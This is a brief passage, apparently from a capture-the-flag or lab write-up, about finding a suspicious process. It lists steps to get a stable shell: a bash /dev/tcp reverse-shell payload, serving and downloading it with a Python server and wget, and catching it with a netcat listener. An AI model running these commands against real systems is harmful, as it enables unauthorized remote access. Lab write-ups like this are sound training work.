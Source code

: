 ![](attachments/20240417143624.png)

# Question 2: What is the name of the suspicious process?

The shell isn't a proper shell so i had to get a stable shell. To do that:

- Put the following payload in a file named shell.sh. Payload: 

```shell
	bash -c 'exec bash -i &>/dev/tcp/IP/PORT <&1'`
```

- Start a python server on your machine. `python -m http.server`
- On target machine use wget to download the file `wget http://IP:PORT/shell.sh`
- Make the file an executable `chmod +x shell.sh`
- Start a netcat listener on your machine `nc -lvnp PORT` same port as the one in payload.
- Run the script `./shell.sh`

And with that you will get a shell.

